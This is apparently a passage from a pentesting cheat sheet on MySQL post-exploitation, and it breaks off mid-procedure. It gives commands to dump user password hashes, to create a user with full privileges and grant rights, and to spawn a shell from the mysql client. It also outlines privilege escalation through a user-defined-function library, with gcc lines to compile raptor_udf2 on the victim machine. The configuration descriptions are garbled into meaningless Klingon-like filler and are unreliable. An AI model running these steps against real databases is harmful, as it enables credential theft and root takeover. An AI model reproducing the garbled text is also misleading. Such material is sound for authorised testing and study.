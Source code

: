 {% embed url="https://www.rootedcon.com/" %}

## POST

### Mysql User

It will be very interesting if mysql is running as **root**:
```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
```
#### qarDaSmysqld.cnf qar

MySQL Daq 'e' vItlhutlh:

- **`user`** Daq 'e' vItlhutlh MySQL Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh.
- **`password`** MySQL Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh.
- **`admin_address`** IP patlh Daq 'e' vItlhutlh TCP/IP qachDaq 'e' vItlhutlh.
- **`debug`** Daq 'e' vItlhutlh vaj logmeyDaq Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh.
- **`sql_warnings`** Daq 'e' vItlhutlh vaj logmeyDaq Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh.
- **`secure_file_priv`** Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh vaj Daq 'e' vItlhutlh.
```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Get users, permissions & creds
SELECT * FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```
### Privilege Escalation via library

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.

If you **don't have** those libraries, you can either **look for them**, or download this [**linux C code**](https://www.exploit-db.com/exploits/1518) and **compile it inside the linux vulnerable machine**:
```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
DaH jImej, library'e' vItlhutlh. Mysql vItlhutlh'e' login, 'ej 'oH 'e' vItlhutlh'e' (root?) 'ej vItlhutlh'e' 'e' vItlhutlh'e':
